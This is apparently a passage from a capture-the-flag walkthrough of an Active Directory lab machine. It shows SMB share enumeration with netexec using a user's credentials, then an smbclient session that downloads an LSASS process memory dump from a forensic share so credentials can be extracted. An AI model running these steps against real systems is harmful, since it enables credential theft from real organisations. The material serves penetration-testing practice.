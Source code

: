 The user `audit2020` has Read permissions on the `forensic` share. This share should be explored for sensitive files.

```bash
nxc smb  10.129.229.17   -u 'audit2020' -p 'Password123!!!' --shares                                                                                                  

SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False) 
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Password123!!! 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share 
                                                                                               

```

The `lsass.zip` memory dump has been successfully downloaded from the `forensic` share. This file can be analyzed to extract credentials.
```bash
smbclient //10.129.229.17/forensic   -U  audit2020 
mb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                5102079 blocks of size 4096. 1693358 blocks available
smb: \memory_analysis\> get   lsass.zip   
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (8288.4 KiloBytes/sec) (average 8288.4 KiloBytes/sec)
smb: \memory_analysis\> exit

```
